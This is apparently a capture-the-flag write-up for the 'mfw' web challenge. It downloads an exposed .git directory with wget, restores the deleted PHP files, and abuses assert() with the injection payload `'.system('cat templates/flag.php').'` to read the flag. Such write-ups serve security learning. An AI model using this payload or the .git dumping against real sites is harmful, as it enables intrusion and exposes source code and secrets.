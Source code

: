 # mfw

![Screenshot from 2021-07-25 09-33-39](https://user-images.githubusercontent.com/87865134/126885810-05db8c07-e99c-420d-bf93-558c6a589a71.png)

## - Hint:
  - web use: *git*, *php*, *bootstrap* -> maybe git disclosure
  - *?page=flag* -> flag may be in here

![Screenshot from 2021-07-25 09-33-50](https://user-images.githubusercontent.com/87865134/126885853-3bce7c1f-9960-4806-8559-5d9fe039d969.png)

![Screenshot from 2021-07-25 09-34-14](https://user-images.githubusercontent.com/87865134/126885855-cc5362ce-14f4-4f1b-8585-18436eb77820.png)

## 1. Check git disclosure
  - `http://111.200.241.244:64683/.git/`  -> Git Disclosure   <vr/>
  ![Screenshot from 2021-07-25 09-41-39](https://user-images.githubusercontent.com/87865134/126885895-1f46e63d-2207-4ad7-9330-28bab05b7850.png)

## 2. Download git snapshot to view source code
  - download: `wget -r http://111.200.241.244:64683/.git/` 
  - after download, check git status:  
    ```
    git status
    ```  
    ![Screenshot from 2021-07-25 09-47-07](https://user-images.githubusercontent.com/87865134/126885993-5e0c3d6b-0e58-411c-9aae-a27c09312884.png)

  - some files are deleted -> restore file:  
     ```
     git restore index.php
     git restore templates
     ```
## 3. View source code
  - **in file flag.php:**  
   ![Screenshot from 2021-07-25 09-49-12](https://user-images.githubusercontent.com/87865134/126886044-9b28b33e-351e-4ce8-b0ac-dcfb33e67784.png)  
    - > Flag maybe here
  
  - **in file index.php:**  
  ![Screenshot from 2021-07-25 09-49-22](https://user-images.githubusercontent.com/87865134/126886041-aa6138af-6cb7-458a-bcd3-153b2c754436.png)  
    - `assert(mixed $assertion, string $description = ?): bool`
      - > -> Command injection

## 4. Command Injection
  - payload: `'.system('cat templates/flag.php').'`  
  ![Screenshot from 2021-07-25 09-57-12](https://user-images.githubusercontent.com/87865134/126886172-af5e8afc-3fe3-4754-b7bf-d8d1fba82e3b.png)

   
## - Decription:
  - > category: 
    - Git disclosure
    - Command Injection

## - Reference:
  - [assert()](https://www.php.net/manual/en/function.assert.php)
